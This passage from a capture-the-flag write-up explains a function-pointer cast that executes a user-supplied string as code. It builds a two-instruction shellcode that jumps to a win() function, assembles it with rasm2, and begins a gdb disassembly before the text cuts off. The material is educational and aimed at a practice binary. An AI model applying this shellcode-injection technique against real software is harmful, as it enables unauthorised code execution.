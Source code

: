 The vulnerability is this type casting of string to a function.
When string is type casted as a function, the string is treated as opcodes/instructions.

`func()` then uses a call to jump to the string to be executed in machine code.
This string to be executed cannot be written in higher languages but can be assisted with assembly language.

We commonly call this string as "shellcode" because many exploit writers will attempt to get a command shell.

### Simple Shellcode

```
$ echo "Flag{SampleFlag}" > flag.txt
```

First, we have to create a dummy flag.txt in our directory.

```
push 0x08048540
ret
```

Our shellcode can be as simple as the above. Ret will pop the value from the stack into the $eip.
$eip holds the address of the next instructions to be executed. Therefore, it will run win().

rasm2 is a good tool within the radare reverse engineering suite.

```
$ file shells
shells: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c9cc6ffcd23dbaaa4d94377fc63bdcff7009680b, not stripped
```

When writing shellcode, it is important to take note of the architecture (x86 or x64) and the cpu (intel, AMD, ARMs or MIPS, etc).

```
$ rasm2 -a x86 -c intel -
push 0x08048540
6840850408
ret
c3
```

Now that we have translated assembly code into bytes. We will have to try it out with gdb.

### GDB

```
gdb-peda$ disass vuln
Dump of assembler code for function vuln:
   0x08048560 <+0>:	push   ebp
   0x08048561 <+1>:	mov    ebp,esp
   0x08048563 <+3>:	sub    esp,0x18
   0x08048566 <+6>:	sub    esp,0x8
   0x08048569 <+9>:	push   0x0
   0x0804856b <+11>:	push   0x0
   0x0804856d <+13>:	push   0x22
   0x0804856f <+15>:	push   0x7
   0x08048571 <+17>:	push   0xa
   0x08048573 <+19>:	push   0x0
   0x08048575 <+21>:	call   0x8048420 <mmap@plt>
   0x0804857a <+26>:	add    esp,0x20
   0x0804857d <+29>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048580 <+32>:	cmp    DWORD PTR [ebp-0xc],0xffffffff
   0x08048584 <+36>:	jne    0x80485a0 <vuln+64>
   0x08048586 <+38>:	sub    esp,0xc
   0x08048589 <+41>:	push   0x8048714
```